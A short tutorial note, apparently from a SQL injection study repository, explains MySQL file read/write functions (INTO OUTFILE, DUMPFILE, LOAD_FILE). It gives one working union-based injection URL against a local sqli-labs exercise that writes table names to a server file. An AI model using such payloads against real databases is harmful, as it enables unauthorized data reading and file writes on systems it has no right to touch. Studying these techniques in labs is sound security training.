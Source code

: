 # Exploiting databases with Outfiles

Here are some sql commands that are used to read and write files - 

1.  into outfile "name_of_the_file"

1.  into dumpile "name_of_the_file"

1.  load_file("name_of_the_file")

Also, in order to use these commands, we need to make sure that mysql has write permissions. 

MySql also has the ```--secure-file-priv``` option which limits the ability to read and write files. You may need to check which directory can mysql write to.

The url for this method will look somewhat like this - 

```
https://localhost/sqlilabs/Less-7/?id=1')) union select 1, table_name from information_schema.tables where table_schema=database(), 3 into outfile '/var/lib/mysql-files/payload3.txt' --+
```
